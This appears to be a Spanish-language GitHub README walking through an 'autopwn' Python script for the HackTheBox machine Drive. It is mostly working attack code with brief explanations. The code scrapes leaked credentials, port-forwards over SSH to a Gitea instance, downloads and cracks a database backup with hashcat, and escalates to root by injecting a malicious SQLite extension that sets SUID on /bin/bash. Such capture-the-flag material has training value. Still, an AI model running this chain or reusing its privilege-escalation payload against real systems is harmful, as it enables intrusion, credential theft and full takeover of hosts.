


# Autopwn - Drive

En caso de no haber realizado la máquina Drive, es recomendable revisar el [writeup](https://mrpr1ngl3s.github.io/htb/Drive) para comprender el autopwn.

<p align="center">
	
</p>

<p align="center">
	
</p>

# Funcionamiento

El primer paso que realiza el script es la creación del usuario, para ello accede a la función **GetCsrfTokenRegister** para conseguir el csrftoken mediante expresiones regulares y luego acceder a la función **register**  para crear dicho usuario, jugando con **session** para que el token no cambie entre solicitudes.

```python
s = requests.session()
```


```python
def GetCsrfTokenRegister():
	r = s.get(register_url)
	return re.findall('name="csrfmiddlewaretoken" value="(.*?)"', r.text)[0]

def register(token, username, email, passw):
	data_post = {
		'csrfmiddlewaretoken': token,
		'username': username,
		'email': email,
		'password1': passw,
		'password2': passw
	}

	r = s.post(register_url, data=data_post)
```

De nuevo se utiliza el **session** para acceder como el usuario creado y utilizando la librería **re** para conseguir las credenciales mediante expresiones regulares.

```python
def login(token, username, password):
	post_data = {
		'csrfmiddlewaretoken': token,
		'username': username,
		'password': password
	}

	r = s.post(login_url, data=post_data)

def GetCredentials():
	r = s.get("http://drive.htb/79/block/")

	username = re.findall('user for (.*?) ',r.text)[0]
	password = re.findall('password &quot;(.*?)&quot;',r.text)[0]

	return username, password
```

Para realizar el **LocalPortForwarding** y poder acceder al Gitea se utiliza la librería **pexpect** para poder ejecutar el comando del ssh y poner la contraseña previamente conseguida.

```python
def LocalPortForwarding(username, password):
	ssh_command = f"ssh {username}@10.10.11.235 -L:3000:127.0.0.1:3000 -fN"

	ssh_session = pexpect.spawn(ssh_command, timeout=None)

	ssh_session.expect('password:')

	ssh_session.sendline(password)

	ssh_session.interact()
```
Para poder acceder al repositorio se había que autenticar, y también se utilizaba otro csrftoken, es por ello en la función **GetCsrf2Token** se consigue el csrftoken y con la función **login2** se accedía como el usuario, para finalmente utilizar la misma sesión con **session** en la función **GetPasswordZip** para obtener la contraseña necesaria.

```python
def GetCsrf2Token():
	r = requests.get("http://localhost:3000/user/login")
	return re.findall('name="_csrf" value="(.*?)"',r.text)[0]

def login2(csrf, username, password):
	data_post = {
		'_csrf': csrf,
		'user_name': username,
		'password': password
	}

	r = s.post(login_gitea,data=data_post)

def GetPasswordZip():
	r = s.get("http://localhost:3000/crisDisel/DoodleGrive/raw/branch/main/db_backup.sh")

	return re.findall("7z a -p'(.*?)'",r.text)[0]
```
Luego con la contraseña ya obtenida se eliminaba el proceso del comando **ssh**.

```python
subprocess.Popen(["killall","/usr/bin/ssh"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
```

Con la contraseña del zip ya obtenida, se accede a la función **DownloadZip** para poder primero, con la librería **paramiko** acceder a la máquina y crear en el directorio **/var/www/backups/** el servicio http y poder luego con **subprocess** ejecutar el comando **wget** y descargar el **.zip** que contiene el hash y descomprimirlo con la contraseña obtenida.

```python
def DownloadZip(username, passZip):
	client = paramiko.SSHClient()

	client.set_missing_host_key_policy(paramiko.AutoAddPolicy())

	client.connect('10.10.11.235', username=username, password=password)

	stdin, stdout, stderr = client.exec_command('python3 -m http.server 8080 --directory /var/www/backups')

	time.sleep(2)

	subprocess.Popen(["wget", "http://10.10.11.235:8080/1_Nov_db_backup.sqlite3.7z"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

	time.sleep(1)

	subprocess.Popen(["7z","x","1_*",f"-p{passZip}"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)

	time.sleep(1)
```

Después de descomprimir el **.zip** se accede a la función **CrackPass** que contiene el comando del **hashcat** para poder creackear el hash del usuario utilizando el parámetro **-o** que guarda el resultado en el archivo **hash**, para luego abrir el archivo en modo lectura y poder pillar la contraseña del usuario **tom**.

```python
def CrackPass():
	os.system("sqlite3 db.sqlite3 --line 'select * from accounts_customuser' | grep 'password' | awk 'NF{print $NF}' > hashes")

	os.system("hashcat --quiet -a 0 -m 124 hashes /usr/share/wordlists/rockyou.txt -o hash")

	with open('hash', 'r') as file:

		password_2 = file.read()

	return	re.findall(":(.*)",password_2)[0]
```

Finalmente, se accede a la función **Doodle** para primero acceder como el usuario **tom** con su contraseña conseguida en la función **CrackPass** y luego realizar todos los pasos necesarios para la escalada de privilegios.

```python
def Doodle(username,password_2):
	ssh_command = f"ssh {username}@10.10.11.235"

	ssh_session = pexpect.spawn(ssh_command, timeout=None)

	ssh_session.expect('password:')

	ssh_session.sendline(password_2)

	ssh_session.sendline('export TERM=xterm')

	ssh_session.sendline('echo -e "#include <stdlib.h>\\n void sqlite3_extension_init() {\\n\\tsetuid(0);\\n\\tsetgid(0);\\n\\tsystem(\\"/usr/bin/chmod u+s /bin/bash\\");\\n}" > test.c')

	ssh_session.sendline(' gcc test.c -shared -fPIC -o a')

	ssh_session.sendline('./doodleGrive-cli')

	ssh_session.sendline('moriarty')

	ssh_session.sendline('findMeIfY0uC@nMr.Holmz!')

	ssh_session.sendline('5')

	ssh_session.sendline('"+load_extension(char(46,47,97))+"')

	time.sleep(1)

	ssh_session.sendline('6')

	time.sleep(1)

	ssh_session.sendline('bash -p')

	ssh_session.sendline('clear')

	ssh_session.interact()
```
